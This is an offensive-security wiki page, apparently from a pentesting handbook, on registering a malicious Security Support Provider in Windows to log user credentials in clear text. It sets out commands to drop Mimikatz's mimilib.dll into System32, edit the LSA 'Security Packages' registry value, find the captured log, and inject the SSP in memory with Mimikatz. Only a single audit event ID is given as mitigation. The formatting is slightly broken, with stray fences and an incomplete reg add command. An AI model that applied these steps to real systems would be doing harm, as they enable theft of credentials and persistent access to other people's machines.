 # Custom SSP


### Custom SSP

[[../authentication-credentials-uac-and-efs/index.html#security-support-provider-interface-sspi|Learn what is a SSP (Security Support Provider) here.]]\
You can create you **own SSP** to **capture** in **clear text** the **credentials** used to access the machine.

#### Mimilib

You can use the `mimilib.dll` binary provided by Mimikatz. **This will log inside a file all the credentials in clear text.**\
Drop the dll in `C:\Windows\System32\`\
Get a list existing LSA Security Packages:

```bash:attacker@target
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
```
Add `mimilib.dll` to the Security Support Provider list (Security Packages):

```bash
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages"
```
```
And after a reboot all credentials can be found in clear text in `C:\Windows\System32\kiwissp.log`

#### In memory

You can also inject this in memory directly using Mimikatz (notice that it could be a little bit unstable/not working):

```bash
privilege::debug
misc::memssp
```
```
This won't survive reboots.

#### Mitigation

Event ID 4657 - Audit creation/change of `HKLM:\System\CurrentControlSet\Control\Lsa\SecurityPackages`




